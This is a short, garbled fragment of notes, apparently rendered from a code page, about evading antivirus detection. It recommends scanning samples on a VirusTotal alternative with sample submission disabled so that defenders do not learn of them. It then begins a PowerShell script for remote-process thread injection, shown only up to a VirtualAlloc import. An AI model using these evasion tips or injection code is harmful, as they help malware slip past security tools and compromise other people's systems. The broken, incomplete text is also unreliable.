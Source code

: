 # 

# SecOps collaboration between enterprise IT and SOC

# 

# Kleenscan.com alternative to VirusTotal last resort if AV is grey -> black

# 

# need to disable sample submssion so that we don't incur drawback as VirusTotal

# 

# always perfer custom code

# 

# 

# Evading AV with Thread Injection

# 

# using remote process memory injection technique

# 

# below is well known version of memory injection powershell script

# 

# ```
powershell
$code = '

# [DllImport("kernel32.dll")]

# public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
